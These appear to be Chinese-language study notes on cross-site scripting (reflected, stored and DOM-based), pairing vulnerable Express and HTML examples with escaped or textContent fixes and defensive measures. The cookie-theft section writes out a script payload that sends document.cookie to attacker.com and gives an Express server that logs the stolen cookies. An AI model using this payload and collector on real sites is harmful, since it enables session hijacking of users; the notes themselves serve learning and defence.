

# [1. XSS网络攻击--原理，类型和实践](https://www.bilibili.com/video/BV1rg411v7B8/?spm_id_from=333.337.search-card.all.click&vd_source=a7089a0e007e4167b4a61ef53acc6f7e)

> 跨站脚本攻击  Cross-Site Scripting
>
> **描述**：攻击者通过在应用中插入恶意脚本，利用用户的浏览器执行恶意代码。
>
> **防护措施**：使用内容安全策略（Content Security Policy, CSP）、对用户输入进行消毒和转义，避免使用危险的JavaScript函数。

## 反射型XSS攻击

一般是利用网页的检索功能  

|  |  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |

允许被攻击的一个测试网站：https://xss-game.appspot.com/level1/frame

|  |  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |

### 场景描述

假设一个使用Node.js和Express构建的简单Web应用程序，它允许用户在URL的查询参数中输入他们的名字，并将其显示在网页上。例如，用户访问`http://example.com/?name=John`，网页会显示“Hello, John”。

### 不安全的代码示例

以下是不安全的Node.js和Express应用程序代码示例：

```javascript
const express = require('express');
const app = express();

app.get('/', (req, res) => {
    const name = req.query.name;
    // 将用户输入的内容直接插入到HTML中，未进行任何过滤或编码
    res.send(`
        <html>
        <head><title>Reflected XSS Example</title></head>
        <body>
            <h1>Welcome</h1>
            <p>Hello, ${name}!</p>
        </body>
        </html>
    `);
});

app.listen(3000, () => {
    console.log('Server is running on http://localhost:3000');
});
```

### 攻击示例

在正常情况下，如果用户访问`http://localhost:3000/?name=John`，页面上会显示“Hello, John!”。

然而，如果攻击者构造一个恶意链接，例如`http://localhost:3000/?name=<script>alert('XSS');</script>`，并诱使用户点击，网页会执行嵌入的JavaScript代码，显示一个警告框：

```html
<p>Hello, <script>alert('XSS');</script>!</p>
```

因为用户输入被直接插入到HTML中，浏览器会解析并执行嵌入的JavaScript代码，触发一个警告框显示“XSS”。

### 安全的代码示例

为了防止反射型XSS攻击，应该对用户输入进行适当的编码或过滤，确保任何嵌入到HTML中的动态内容不会被浏览器解析为可执行代码。可以使用`escape-html`库来处理用户输入：

```javascript
const express = require('express');
const escapeHtml = require('escape-html'); // 用于HTML转义的库
const app = express();

app.get('/', (req, res) => {
    const name = req.query.name ? escapeHtml(req.query.name) : 'Guest';
    // 对用户输入进行HTML转义，防止XSS攻击
    res.send(`
        <html>
        <head><title>Reflected XSS Example</title></head>
        <body>
            <h1>Welcome</h1>
            <p>Hello, ${name}!</p>
        </body>
        </html>
    `);
});

app.listen(3000, () => {
    console.log('Server is running on http://localhost:3000');
});
```

在这个安全的版本中，即使攻击者尝试通过URL注入`<script>alert('XSS');</script>`，页面也只会显示为普通文本，而不会执行：

```html
<p>Hello, &lt;script&gt;alert('XSS');&lt;/script&gt;!</p>
```

### 总结

反射型XSS攻击通过将用户输入直接嵌入到HTML中而未进行适当的处理，使得攻击者可以在受害者的浏览器中执行恶意脚本。**防御反射型XSS的关键是对用户输入进行HTML转义或编码，确保这些输入不会被浏览器解释为可执行代**码。

## 存储型XSS攻击

- 一般会发生在可以发表评论的网站，黑客不发表正常的评论，而是把恶意代码脚本作为评论发送给网站服务器。如果服务器不进行过滤，就会把评论永久保存起来，常见的就是保存在数据库里面。
- 用户浏览网站的时候会被迫看到有恶意代码的评论
- 看到恶意代码的同时，浏览器就会自动执行恶意代码？？？？？为什么？？？
  - 插入了类似<script></script>类似这样的代码
- 可能会把你的信息泄露给黑客，也可能执行的脚本是为黑客赚钱的
- 用户并不是因为点击乱七八糟的URL中招，而是在你访问网站评论区的时候就自动中招了

|  |  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
|  |                                                              |

## 对存储型XSS攻击进行过滤

存储型XSS（Cross-Site Scripting）攻击发生在恶意脚本被持久化存储到服务器上，并在其他用户访问时执行的情况。为了防止存储型XSS攻击，通常需要采取以下过滤和防护措施：

### 1. **输入过滤与验证**
   - **严格验证输入数据**：对用户输入的数据进行严格的格式和内容验证，确保它们不包含恶意代码。可以使用白名单的方法，只允许合法的字符和格式通过。
   - **编码输入数据**：对于可能包含特殊字符的输入，应该进行编码。比如在输出到HTML内容时，对用户输入进行HTML编码，以防止注入恶意脚本。

### 2. **输出编码**
   - **HTML编码**：在将用户输入数据输出到网页时，对数据进行HTML实体编码。例如，将`<`编码为`&lt;`，`>`编码为`&gt;`。
   - **JavaScript编码**：如果数据将被插入到JavaScript中，应该对特殊字符进行JavaScript编码。
   - **URL编码**：如果用户输入的数据被插入到URL中，应该对其进行URL编码。

### 3. **使用安全的库与框架**
   - **使用安全框架**：选择具有内置防御XSS攻击功能的Web框架。很多现代框架（如React、Angular等）默认会对用户输入进行安全处理，防止XSS。
   - **安全模板引擎**：使用支持自动编码输出的模板引擎，确保模板引擎在渲染时自动处理用户输入。

### 4. **内容安全策略 (CSP)**
   - **配置CSP**：内容安全策略是一个浏览器级的安全机制，可以帮助防止XSS攻击。通过配置CSP，可以限制哪些脚本可以被执行，禁止加载外部资源等，从而降低XSS攻击的风险。

### 5. **数据库防护**
   - **防止数据直接存储为HTML**：在存储用户输入的数据时，避免将其直接存储为HTML，必要时对存储的数据进行转义处理。
   - **数据清理**：定期检查和清理数据库中可能存在的恶意脚本或内容。

### 6. **定期安全审计**
   - **代码审查与测试**：定期对代码进行安全审查，使用自动化工具或手动方式测试应用的XSS防护效果。
   - **安全更新**：及时应用框架、库的安全更新，修复已知漏洞。

通过以上措施，可以大大降低存储型XSS攻击的风险，确保Web应用的安全性。

## DOM型XSS攻击

|  |  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
|  | ？？？？没听懂                                               |

DOM型XSS（Document Object Model based Cross-Site Scripting）攻击的核心在于，恶意代码的注入和执行都发生在浏览器端的DOM操作中，而不是通过服务器端直接返回的响应。以下是一个详细的代码示例，展示了如何通过不安全的DOM操作导致DOM型XSS攻击。

### 场景描述

假设有一个网页允许用户在URL的查询参数中传递消息，并将该消息显示在页面上。例如，用户可以访问`example.com`并在URL中传递`?msg=Hello`，页面上就会显示“Hello”。

### 不安全的代码示例

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>DOM XSS Example</title>
</head>
<body>
    <h1>Your Message:</h1>
    <div id="message"></div>

    <script>
        // 获取URL中的查询参数
        var urlParams = new URLSearchParams(window.location.search);
        var msg = urlParams.get('msg');

        // 将msg的内容直接插入到页面中
        document.getElementById('message').innerHTML = msg;
    </script>
</body>
</html>
```

### 攻击示例

如果用户访问`example.com?msg=Hello`，页面上将显示“Hello”。但如果攻击者修改URL为`example.com?msg=<script>alert('XSS');</script>`，浏览器会执行传入的JavaScript代码，触发一个警告框显示“XSS”。

这个例子中，攻击者成功地通过修改URL在页面中插入并执行了恶意脚本。

### 安全的代码示例

为了防止这种攻击，应该避免直接使用`innerHTML`，而是使用更安全的方法将内容插入DOM，如使用`textContent`，这样浏览器就不会将输入内容作为HTML解析和执行：

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>DOM XSS Example</title>
</head>
<body>
    <h1>Your Message:</h1>
    <div id="message"></div>

    <script>
        // 获取URL中的查询参数
        var urlParams = new URLSearchParams(window.location.search);
        var msg = urlParams.get('msg');

        // 使用textContent而不是innerHTML来设置文本
        document.getElementById('message').textContent = msg;
    </script>
</body>
</html>
```

在这个安全的版本中，即使攻击者尝试通过URL注入`<script>alert('XSS');</script>`，浏览器也只会将其显示为普通文本，而不会执行。

### 总结
DOM型XSS攻击主要通过不安全的DOM操作实现，攻击者可以在浏览器端注入并执行恶意代码。防御措施包括避免使用`innerHTML`等容易导致XSS的操作，以及对用户输入进行严格的验证和编码。

# [1. XSS跨站脚本分类](https://www.bilibili.com/video/BV1ZR4y1V7GN/?spm_id_from=333.337.search-card.all.click&vd_source=a7089a0e007e4167b4a61ef53acc6f7e)

> Cross-Site Scripting 跨站脚本攻击
>
> scripting：脚本语言，脚本撰写，脚本处理


## 1.1 反射型XSS


# [2. 反射XSS盗取Cookie](https://www.bilibili.com/video/BV1ZR4y1V7GN/?p=2&spm_id_from=pageDriver&vd_source=a7089a0e007e4167b4a61ef53acc6f7e)

## 2.1 cookie介绍


## 2.2 反射XSS盗取cookie

反射型XSS（Cross-Site Scripting）攻击是一种常见的网络攻击方式，攻击者利用网页的漏洞将恶意脚本注入到网页中，并使得这个脚本在用户浏览器中执行，从而窃取用户的敏感信息，例如 cookie。以下是如何利用反射型XSS盗取 cookie 的一般步骤：

### 1. **了解反射型 XSS**

**反射型 XSS 攻击发生在攻击者将恶意脚本嵌入到请求中，服务器将该请求的内容原样返回并嵌入到响应中。用户浏览器执行这些恶意脚本，从而泄露敏感信息或执行其他恶意操作**。

### 2. **构造恶意请求**

攻击者需要构造一个恶意 URL 或请求，将恶意脚本注入到请求中。例如，如果一个网站存在反射型 XSS 漏洞，用户的请求中的参数值被直接插入到 HTML 中，攻击者可以利用这种漏洞。

#### 示例恶意 URL

假设某个网站的 URL 参数被直接插入到 HTML 中：

```html
<p>Hello, <span id="user">USER_NAME</span>!</p>
```

攻击者可以构造如下 URL 来注入恶意脚本：

```plaintext
http://example.com/?name=<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
```

在这种情况下，当受害者访问上述 URL 时，浏览器会执行注入的 JavaScript 代码，将用户的 cookie 发送到攻击者控制的服务器。

### 3. **处理并拦截 cookie**

攻击者需要设置一个恶意服务器来接收被盗取的 cookie。这个服务器可能只是一个简单的服务器，记录收到的请求。

#### 示例恶意服务器（使用 Node.js 和 Express）

```javascript
const express = require('express');
const app = express();

app.get('/steal', (req, res) => {
  // 记录被盗取的 cookie
  console.log('Cookie stolen:', req.query.cookie);
  res.send('Cookie stolen');
});

app.listen(3000, () => {
  console.log('Listening on port 3000');
});
```

### 4. **防范措施**

为防止 XSS 攻击，网站开发者应采取以下措施：

1. **输入验证和清理**：
   - 过滤和清理用户输入，确保没有恶意脚本被注入到页面中。
   
2. **输出编码**：
   - 对动态内容进行适当的 HTML 编码，例如，使用函数 `encodeURIComponent` 来处理 URL 参数，以避免插入恶意代码。

3. **使用 CSP（Content Security Policy）**：
   - 实施内容安全策略，限制可以在页面中执行的脚本来源，从而减少 XSS 攻击的风险。

4. **HttpOnly 和 Secure Cookie 标志**：
   - 对敏感 cookie 设置 `HttpOnly` 和 `Secure` 标志，防止客户端 JavaScript 访问 cookie。

5. **跨站请求伪造（CSRF）保护**：
   - 使用 CSRF 令牌来防止未经授权的请求。

### 总结

反射型 XSS 攻击通过将恶意脚本注入到网站中，从而盗取用户的 cookie。防范此类攻击需要确保输入和输出的安全性，实施适当的安全措施，例如 CSP、HttpOnly 和 Secure 标志等。了解如何防范 XSS 攻击是确保网站安全的关键。

## 2.3 利用cookie会话劫持

## 2.4 劫持会话后的操作


